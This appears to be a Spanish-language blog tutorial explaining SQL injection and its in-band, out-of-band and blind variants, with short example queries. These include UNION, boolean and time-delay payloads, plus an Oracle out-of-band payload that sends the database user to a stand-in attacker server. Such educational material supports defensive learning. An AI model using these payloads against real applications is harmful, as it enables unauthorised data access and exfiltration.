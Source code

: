 ```yaml
---
layout: single
title: ¿Qué es Inyección de SQL?
excerpt: "Inyección de SQL es una vulnerabilidad de una aplicación web que permite al atacante introducir instrucciones SQL dentro del código SQL programado para la manipulación de la base de datos."
date: 2021-11-28
classes: wide
header:
  teaser: /assets/images/que-es-inyeccion-sql\Ilustracion_Inyeccion_SQL.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - SQL Injection
tags:
  - SQL Injection
---
```

<p align="center">
  <img width="500" src="../assets/images/que-es-inyeccion-sql\Ilustracion_Inyeccion_SQL.png">
</p>

***Inyección de SQL*** es una vulnerabilidad de una aplicación web que permite al atacante introducir instrucciones SQL dentro del código SQL programado para la manipulación de la base de datos.

Un ataque de inyección SQL exitoso puede:
- Leer datos sensibles de una base de datos.
- Modificar información de la base de datos con consultas INSERT/UPDATE/DELETE. 
- Ejecutar operaciones administrativas en la base de datos (como apagarla).
- Extraer contenido de los archivos que existen en el sistema de archivos de la base de datos.
- Escribir archivos en el sistema de archivos.
- Emitir otro tipo de comandos al sistema operativo.

## Los 10 principales riesgos de seguridad de las aplicaciones web:
<p align="center">
  <img src="../assets/images/que-es-inyeccion-sql\Top_ten_OWASP.png">
</p> 
*Fuente: https://owasp.org/www-project-top-ten/*

## Las principales categorías de las inyecciones SQL son:
- In-band
- Out-of-band
- Inferential (Blind)

## 1. In-band (Inyecciones SQL clásicas):  
Los atacantes pueden lanzar el ataque y obtener los resultados por el mismo canal de comunicación.

**Técnicas populares:**

- **Error-based Injections:** Podemos obtener información de la base de datos, su estructura y su información a partir de mensajes de error. *Ejemplo: Poner comillas simples o dobles en un campo de búsqueda.* Además, conociendo el gestor de bases de datos podemos darnos cuenta que tabla contiene información importante de la base de datos (tabla con metadatos de la base de datos):

![](/assets/images/que-es-inyeccion-sql\Tablas_metadatos_gestores_bd.png)

- **Union-based Injections:** Combina los resultados de una consulta legítima con los resultados de la consulta que un atacante realizó. 

*Ejemplo:*
```sql
SELECT Email,RegistrationDate FROM Users WHERE ID='159' UNION SELECT 
ProductName,ProductDescription FROM Products;
```

## 2. Out-of-band:  
Similar a la anterior pero se usan diferentes canales para la extracción de la información producto del ataque (HTTP, DNS). *Por ejemplo, hacer una conexión HTTP con otro servidor web para enviar los resultados del ataque.*

![](/assets/images/que-es-inyeccion-sql\ilustracion_out_of_band.png)

Requerimientos:
- Tener una aplicación web y base de datos vulnerable.
- Ganar suficientes privilegios para iniciar una petición.

<!-- &emsp; para 4 espacios -->

*Ejemplo:*
```sql
SELECT * FROM Products WHERE id='346'||UTL_HTTP.request('http://attacker
-server-url.com/'||(SELECT user FROM DUAL)) --
```

 ## 3. Inferential or Blind:  
 A menudo es usado para generar retrasos en la base de datos ( sleep(10) ) o condiciones booleanas (1=1).  

*Ejemplo:*

Condición booleana:
```sql
SELECT * FROM Products WHERE ID='346' OR 1=1;
```

Un retraso en SQL Server:  
```sql
SELECT * FROM Products WHERE ID='346' waitfor delay '00:00:10';
```

O un retraso en MySQL:
```sql
SELECT * FROM Products WHERE ID='346' - SLEEP(10);
```

## Materiales de referencia para Inyección SQL: 

https://slides.com/christophe-cybr/sql-explained 